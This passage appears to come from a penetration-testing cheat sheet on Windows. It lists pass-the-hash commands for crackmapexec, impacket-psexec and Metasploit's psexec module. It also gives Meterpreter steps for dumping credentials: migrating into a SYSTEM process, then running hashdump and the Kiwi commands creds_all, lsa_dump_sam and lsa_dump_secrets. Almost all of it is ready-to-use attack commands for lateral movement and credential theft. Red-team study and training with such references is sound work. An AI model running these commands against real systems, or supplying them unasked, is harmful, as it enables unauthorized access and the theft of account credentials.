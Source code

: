 ```sh
# 1. with crackmapexec
crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"

# 2. with psexec (impacket)
impacket-psexec -hashes <LM hash>:<NTLM hash> Administrator@<ip>

# 3. Method (Metasploit) -> windows/smb/psexec
msf > use exploit/windows/smb/psexec
msf > set RHOSTS <ip>
msf > set SMBUser Administrator
msf > set SMBPass <LM hash>:<NTLM hash>
msf > run
```

> **Note**
>
> * Empty LM hash: `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
>   * `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
> * With `hashdump` you have the right format

---

### Dumping Credentials from Memory & SAM

**Prerequisites**: User must be a member a local Administrators.

**(1) hashdump (Metasploit - Meterpreter)**

```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
meterpreter > getpid
meterpreter > ps # Find a SYSTEM process like lsass.exe or winlogon.exe
meterpreter > migrate <PID>

# Dump the hashes
meterpreter > hashdump
```

**(2) Kiwi (Metasploit - Meterpreter)**

```sh
# Ensure you are running as SYSTEM
meterpreter > getuid
meterpreter > getsystem # if needed

# Load the kiwi extension
meterpreter > load kiwi

# Retrieve all available credentials (plaintext, hashes, tickets, etc.)
meterpreter > creds_all

# Dump NTLM hashes for all of the user accounts on the system
meterpreter > lsa_dump_sam

# Dump plaintext passwords and other secrets from memory (LSASS)
lsa_dump_secrets
# Note: from the Windows version 8.0+, windows don’t store any plain text password.
# So, it can be helpful for the older version of the Windows.
```
